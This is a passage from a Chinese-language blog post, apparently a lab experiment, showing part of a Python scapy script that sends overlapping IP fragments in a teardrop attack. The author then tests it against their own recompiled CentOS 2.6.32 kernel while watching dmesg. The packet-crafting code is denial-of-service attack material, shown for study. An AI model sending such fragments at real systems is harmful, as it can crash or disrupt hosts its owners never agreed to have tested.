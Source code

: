 ```python
  i=IP()
  i.dst=target
  i.flags="MF"
  i.proto=17
  
  j=IP()
  j.dst=target
  j.flags=0
  j.proto=17
  j.frag=offset
  
  send(i/load)
  send(j/load)

print "Done!"
```
要运行这份代码首先要用py安装scapy库,代码为了简单几乎连exit不想写了,因此直接运行记得要加参数.数据包填充也很简单,就是一直重叠分片,如果在Windows上用wireshark抓包则组包成一个之后会显示坏的包.

# 实验
在测试机器上运行shell命令,监控printk打印.
`[root@localhost linux-2.6.32.27]# while :;do dmesg -c 5; sleep 1; done`
我还是用的是上次测试Linux内存段页式转换那一台Centos6.9,从kernel.org下载一份2.6内核的代码重新编译.直接`make localmodconfig`,一路回车,之后`make -j8 && make modules_install && make install && reboot`即可.测试结果如下:
![teardrop_attack_tcpdump.png](/images/teardrop_attack_tcpdump.png)
![teardrop_attack_printk.png](/images/teardrop_attack_printk.png)